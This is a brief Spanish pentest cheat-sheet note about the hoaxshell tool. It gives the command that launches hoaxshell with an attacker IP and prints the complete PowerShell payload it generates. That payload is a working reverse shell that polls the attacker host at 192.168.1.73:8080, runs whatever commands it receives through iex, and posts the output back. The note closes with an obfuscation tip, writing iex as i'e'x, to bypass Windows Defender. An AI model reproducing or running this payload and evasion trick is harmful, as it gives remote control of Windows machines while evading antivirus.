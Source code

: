 ```yaml
---
tags: [pentest]
created: 2024-12-21

---
```

---------------
- tags: #Windows #Av #Defender #hoaxshell #RCE #cmd #powershell
-------------------

### Usando hoaxshell (de github)
-r: Te da el ouput en "raw". 
-s: IP de atacante

```
python3 hoaxshell.py -s 192.168.1.73 -r
```

*Output:*

```
$s='192.168.1.73:8080';$i='2f5ef625-0dd0df8f-3bce6450';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/2f5ef625 -Headers @{"X-a31e-788c"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/0dd0df8f -Headers @{"X-a31e-788c"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/3bce6450 -Method POST -Headers @{"X-a31e-788c"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

***Reemplazamos iex por i'e'x para bypassear Windows Defender***




